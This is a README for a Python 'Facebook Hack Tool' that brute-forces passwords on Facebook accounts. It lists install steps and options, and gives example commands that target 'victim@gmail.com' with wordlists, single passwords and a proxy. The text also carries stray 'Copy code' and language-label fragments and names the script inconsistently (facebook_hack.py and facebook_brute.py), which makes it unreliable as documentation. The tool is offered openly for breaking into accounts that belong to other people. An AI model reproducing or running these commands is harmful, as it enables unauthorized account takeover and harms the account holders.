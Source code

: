 # Facebook Hack Tool

This tool is designed to perform brute-force attacks on Facebook accounts. It allows you to specify a target email or Facebook ID, along with a wordlist or a single password, to attempt to log in to the target account.

## Prerequisites

Before using this tool, ensure you have the following installed:

- Python (2.7 or later)
- Requests module (`pip install requests`)
- Mechanize module (`pip install mechanize`)

## Usage

To use the tool, follow these steps:

1. Clone the repository:

git clone https://github.com/your_username/facebook-hack-tool.git
cd facebook-hack-tool


2. Run the script:

python facebook_hack.py [OPTIONS...]


3. Options:

   - `-t <target email>` or `<FACEBOOK ID>`: Specify the target email or Facebook ID.
   - `-w <wordlist Path>`: Specify the path to the wordlist file.
   - `-s <single password>`: Specify a single password to check.
   - `-p <Proxy IP:PORT>`: Specify an HTTP/S proxy (optional).
   - `-g <TARGET Facebook Profile URL>`: Specify the target Facebook profile URL to get their ID.
   - `-u/--update`: Update the Facebook Hack tool.

## Examples

Here are some examples of how to use the tool:

- Brute-force attack using a wordlist:

python facebook_hack.py -t victim@gmail.com -w /path/to/wordlist.txt


- Brute-force attack using a single password:

python facebook_brute.py -t victim@gmail.com -s 1234567

arduino
Copy code

- Brute-force attack using a proxy:

python facebook_hack.py -t victim@gmail.com -w /path/to/wordlist.txt -p 144.217.101.245:3129

bash
Copy code

## Update

To update the Facebook Hack tool, run the following command:

python facebook_brute.py -u

csharp
Copy code

## Credits

This tool was created by [Likhon Scripts](https://t.me/ScriptsChats).

## License

This project is licensed under the [MIT License](LICENSE).
